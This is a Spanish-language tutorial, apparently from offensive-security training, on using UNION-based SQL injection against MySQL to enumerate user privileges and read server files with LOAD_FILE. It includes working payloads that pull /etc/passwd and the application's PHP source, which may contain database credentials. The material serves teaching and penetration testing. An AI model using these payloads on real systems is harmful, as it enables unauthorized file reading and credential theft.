




# Lectura de archivos

## Privilegios

Leer datos es mucho más común que escribir datos, que están estrictamente reservados para usuarios privilegiados en los DBMS modernos, ya que puede conducir a la explotación del sistema, como veremos. Por ejemplo, en `MySQL`, el usuario de la base de datos debe tener el `FILE` privilegio de cargar el contenido de un archivo en una tabla y luego volcar datos de esa tabla y leer archivos. Entonces, comencemos recopilando datos sobre nuestros privilegios de usuario dentro de la base de datos para decidir si leeremos y/o escribiremos archivos en el servidor back-end.



### Usuario de base de datos

Es importante identificar qué usuario somos dentro de la base de datos para saber qué privilegios tenemos. En los sistemas modernos, normalmente solo los administradores de base de datos (DBA) poseen permisos amplios, como leer archivos del sistema. Si somos DBA, es más probable que tengamos esos privilegios.

Podemos utilizar cualquiera de las siguientes consultas:

```sql
SELECT USER();
SELECT CURRENT_USER();
SELECT user from mysql.user;
```

Ejemplo de payload `UNION` para descubrir el usuario actual:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

o:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Resultado de ejemplo (se muestra el usuario actual `root`):



Si el usuario es `root`, es probable que sea DBA y tenga muchos privilegios.



### Privilegios del usuario

Ahora que conocemos a nuestro usuario, podemos empezar a buscar qué privilegios tenemos con ese usuario.

Para probar si tenemos privilegios de super administrador:

```sql
SELECT super_priv FROM mysql.user;
```

Payload `UNION` correspondiente:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si hay muchos usuarios en el DBMS, filtrar por usuario:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Ejemplo de salida que muestra `Y` (YES) para privilegios de super usuario:



También podemos volcar otros privilegios desde el esquema `information_schema`:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Para mostrar solo privilegios del usuario actual (`root`):

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Ejemplo de salida que muestra privilegios (incluye `FILE`):


Si el privilegio `FILE` está listado para nuestro usuario, podremos leer archivos (y potencialmente escribirlos).



### Leer archivos con LOAD\_FILE()

Ahora que sabemos que tenemos suficientes privilegios para leer archivos del sistema local, podemos usar la función `LOAD_FILE()`.

La función `LOAD_FILE()` (documentada en MariaDB/MySQL) se utiliza para leer datos de archivos. Acepta un argumento: el nombre del archivo.

Ejemplo para leer `/etc/passwd`:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Nota: Solo podremos leer el archivo si el usuario del sistema operativo que ejecuta MySQL tiene permisos de lectura sobre ese archivo.

Ejemplo de payload `UNION`:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Salida de ejemplo mostrando el contenido de `passwd`:


Hemos leído con éxito el contenido de `/etc/passwd`. Esto también podría usarse para filtrar el código fuente de la aplicación.



***

### Otro ejemplo

Sabemos que la página actual es `search.php`. La raíz web predeterminada de Apache es `/var/www/html`. Intentemos leer el código fuente del archivo en `/var/www/html/search.php`:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Resultado: la página representa el código HTML en el navegador; la fuente HTML se puede ver con \[Ctrl + U].



La fuente HTML / PHP mostrada (fragmento):



El código fuente puede contener credenciales de conexión a la base de datos u otras informaciones sensibles que conviene inspeccionar para encontrar más vulnerabilidades.


La capacidad de leer archivos depende tanto de los privilegios del usuario de la base de datos en el DBMS (por ejemplo, el privilegio `FILE`) como de los permisos del sistema de ficheros del usuario del SO que ejecuta el servicio de base de datos.

